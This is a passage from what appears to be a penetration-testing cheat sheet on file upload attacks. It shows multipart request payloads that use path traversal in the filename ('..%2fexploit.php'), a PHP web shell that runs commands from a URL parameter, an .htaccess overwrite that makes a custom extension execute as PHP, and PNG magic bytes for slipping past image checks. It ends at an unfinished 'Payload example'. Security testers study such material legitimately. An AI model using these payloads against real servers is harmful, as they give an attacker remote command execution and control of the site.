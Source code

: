 <br /><br />

## Change Upload Location by Filename

We might be able to upload our file to **unintended location** by path traversing with filename e.g. **`../example.php`** or **`..%2Fexample.php`**.

```html
------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php" <!-- Change this. -->
Content-Type: application/x-php

<?php echo system($_GET['cmd']); ?>

------abcdefghijk
```

<br /><br />

## Overwrite Server Configuration

We might be able to overwrite the web server configuration file such as **".htaccess"**, **".htpasswd"** by specifying the filename to the name of the config file and write desired contents of that.

```html
------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess" <!-- Specify the name of config file -->
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
```

<br /><br />

## Magic Bytes

Reference: [Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)

If the website checks the magic byte of the uploaded file for allowing only image files to be uploaded, we might be able to bypass this validation by adding magic bytes before the actual payload.  

The **`exif_imagetype()`** PHP function is likely to be used for such validation.  
In addition, we may need to change other values such as **"Content-Type"** depending on the situation.

### PNG

Hex signature: **`89 50 4E 47 0D 0A 1A 0A`**  
ISO 8859-1: **`‰PNG␍␊␚␊`**  

Payload example:
